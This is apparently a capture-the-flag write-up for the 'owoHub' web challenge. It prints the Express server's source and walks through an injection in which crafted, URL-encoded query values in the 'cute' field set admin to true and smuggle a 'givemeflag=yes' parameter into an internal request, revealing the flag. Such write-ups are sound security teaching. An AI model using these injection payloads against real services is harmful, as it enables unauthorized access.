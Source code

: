 # owoHub
We can see the source code entry from the given web page (https://owohub.zoolab.org/source)

### Source code
```javascript=
const express = require("express");
const http = require("http");
const { FLAG, cuteOnlyImages } = require("./secret");

const app = express();

app.get('/', (_, response) => {
    response.sendFile(__dirname + "/index.html");
});
app.get("/source", (_, res) => {
    res.sendFile(__filename);
});
app.get('/auth', (request, response) => {
    const { username, cute } = request.query;

    if (typeof username !== "string" || typeof cute !== "string" ||
        username === "" || !cute.match("(true|false)$")) {
        response.send({ error: "Whaaaat owo?" });
        return;
    }

    if (username.match(/[^a-z0-9]+/i)) {
        response.send({ error: "`Username` should contain only letters & numbers, owo." });
        return;
    }

    const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;

    const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
    http.get(api, resp => {
        resp.setEncoding("utf-8");
        if (resp.statusCode === 200)
            resp.on('data', data => response.send(data));
        else
            response.send({ error:  "qwq..." });
    });
})
app.listen(8787, "0.0.0.0");

// Internal server, can't directly access by external users.
const authServer = express();
authServer.get("/", (request, response) => {
    const { data, givemeflag } = request.query;
    const userInfo = JSON.parse(data);
    if (givemeflag === "yes" && userInfo.admin) // You don't need to be cute to get the flag ouo!
        response.send(FLAG);
    else
        response.send({
            username: `Hellowo, ${userInfo.username}${userInfo.admin ? "<(_ _)>" : ""}!`,
            imageLinks: cuteOnlyImages.map(link => userInfo.cute ? link : "javascript:alert('u are not cute oAo!')")
        });
});
authServer.listen(9487, "127.0.0.1");
```

The server opens 8787 port which could be accessed by anyone, and 9487 port restricted to localhost.

The key to this challenge is at line 45, we need to fulfill two prequisites to get the flag.
```javascript=
if (givemeflag === "yes" && userInfo.admin)
    response.send(FLAG);
```

### Make `userInfo.admin` to `true`
At line 27, `userInfo.admin` is assigned to false, which seemes to be unchangable. However, the user input is not sanitized, and is passed directly to another request in line 29.

The request template is as follows
```
{"username":"${username}","admin":false,"cute":${cute}}
```

We can overlap `admin` to `true` after the `cute` key. At this point we can make the request URL to:
```
https://owohub.zoolab.org/auth?
username=abc&cute=true,"admin":true
```
Response:
```
{"username":"Hellowo, abc<(_ _)>!","......."
```
According to line 49, we can verify that we really changed `admin` to `true`!

### Make givemeflag equal to "yes"
The request to the local api server is 
```javascript
const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
```
The previous trick may not work now, since we don't have user controllable field after `givemeflag=no`

However, we still can take advantage of unsanitized `userInfo`.

The idea is that we could forge `userInfo` to end earlier (using `}`), and let the remaining string as url fragments (using `#`).

Also, there exists a filter at line 17 checking if cute has a `true` or `false` suffix (`cute.match("(true|false)$"`).

The request: `https://owohub.zoolab.org/auth?username=abc&cute=true,"admin":true}&givemeflag=yes#true`

The response: `{"error":"Whaaaat owo?"}`

There is still a simple problem. We need the payload to be regarded as value of `cute` key, so we have to encode `&` and `#` in our request.

Therefore, the request should be
```
https://owohub.zoolab.org/auth?
username=abc&cute=true,"admin":true}
%26givemeflag=yes%23true
```

Flag:
`FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}`

